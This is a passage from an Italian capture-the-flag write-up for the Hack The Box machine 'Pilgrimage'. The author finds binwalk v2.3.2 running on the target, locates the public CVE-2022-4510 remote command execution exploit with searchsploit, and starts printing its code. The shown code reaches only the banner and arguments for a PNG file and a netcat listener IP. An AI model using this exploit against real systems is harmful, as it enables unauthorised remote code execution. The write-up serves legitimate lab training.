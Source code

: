 
è uno script in esecuzione in background che utilizza binwalk. 
Vediamo la versione per vedere se ci sono vulnerabilità ad esso associata

Binwalk v2.3.2

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage]
└─# searchsploit  Binwalk v2.3.2
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Binwalk v2.3.2 - Remote Command Execution (RCE)  python/remote/51249.py
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

Lo scarichiamo e come sempre ci diamo un occhio 

```bash
┌──(root㉿kali)-[/home/kali/htb/pilgrimage]
└─# searchsploit  -m 51249.py
  Exploit: Binwalk v2.3.2 - Remote Command Execution (RCE)
      URL: https://www.exploit-db.com/exploits/51249
     Path: /usr/share/exploitdb/exploits/python/remote/51249.py
    Codes: CVE-2022-4510
 Verified: False
File Type: ASCII text, with very long lines (614)
Copied to: /home/kali/htb/pilgrimage/51249.py

┌──(root㉿kali)-[/home/kali/htb/pilgrimage]
└─# cat 51249.py
# Exploit Title: Binwalk v2.3.2 - Remote Command Execution (RCE)
# Exploit Author: Etienne Lacoche
# CVE-ID: CVE-2022-4510
import os
import inspect
import argparse

print("")
print("################################################")
print("------------------CVE-2022-4510----------------")
print("################################################")
print("--------Binwalk Remote Command Execution--------")
print("------Binwalk 2.1.2b through 2.3.2 included-----")
print("------------------------------------------------")
print("################################################")
print("----------Exploit by: Etienne Lacoche-----------")
print("---------Contact Twitter: @electr0sm0g----------")
print("------------------Discovered by:----------------")
print("---------Q. Kaiser, ONEKEY Research Lab---------")
print("---------Exploit tested on debian 11------------")
print("################################################")
print("")

parser = argparse.ArgumentParser()
parser.add_argument("file", help="Path to input .png file",default=1)
parser.add_argument("ip", help="Ip to nc listener",default=1)
```